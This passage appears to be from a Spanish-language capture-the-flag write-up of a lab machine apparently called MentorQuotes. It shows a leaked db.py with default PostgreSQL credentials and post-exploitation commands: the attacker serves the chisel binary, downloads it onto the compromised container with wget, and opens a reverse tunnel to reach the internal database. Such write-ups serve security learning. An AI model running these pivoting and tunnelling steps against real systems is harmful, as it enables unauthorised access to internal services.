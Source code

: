```bash
cat db.py
```
```python
import os

from sqlalchemy import (Column, DateTime, Integer, String, Table, create_engine, MetaData)
from sqlalchemy.sql import func
from databases import Database

# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")

# SQLAlchemy for quotes
engine = create_engine(DATABASE_URL)
metadata = MetaData()
quotes = Table(
    "quotes",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("title", String(50)),
    Column("description", String(50)),
    Column("created_date", DateTime, default=func.now(), nullable=False)
)

# SQLAlchemy for users
engine = create_engine(DATABASE_URL)
metadata = MetaData()
users = Table(
    "users",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("email", String(50)),
    Column("username", String(50)),
    Column("password", String(128) ,nullable=False)
)


# Databases query builder
database = Database(DATABASE_URL)
```
Bien pues subiremos el binario **chisel** al contenedor para traernos el puerto **5432** de la base de datos y como tenemos credenciales, podemos ver que contiene.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.193 - - [16/Jan/2023 19:37:55] "GET /chisel HTTP/1.1" 200 -
```
```bash
wget http://10.10.14.33/chisel
Connecting to 10.10.14.33 (10.10.14.33:80)
chisel                34% |**********                      | 2710k  0:00:01 ETA
chisel               100% |********************************| 7888k  0:00:00 ETA
```
```bash
❯ ./chisel server --reverse --port 4444
2023/01/16 19:51:28 server: Reverse tunnelling enabled
2023/01/16 19:51:28 server: Fingerprint 6IcHUbyDUCyD6NZK0vun9U11C27PEyAGuIvA19bsECw=
2023/01/16 19:51:28 server: Listening on http://0.0.0.0:4444
2023/01/16 19:51:38 server: session#1: tun: proxy#R:5432=>172.22.0.1:5432: Listening
```
```bash
./chisel client 10.10.14.33:4444 R:5432:172.22.0.1:5432
2023/01/16 18:51:48 client: Connecting to ws://10.10.14.33:4444
```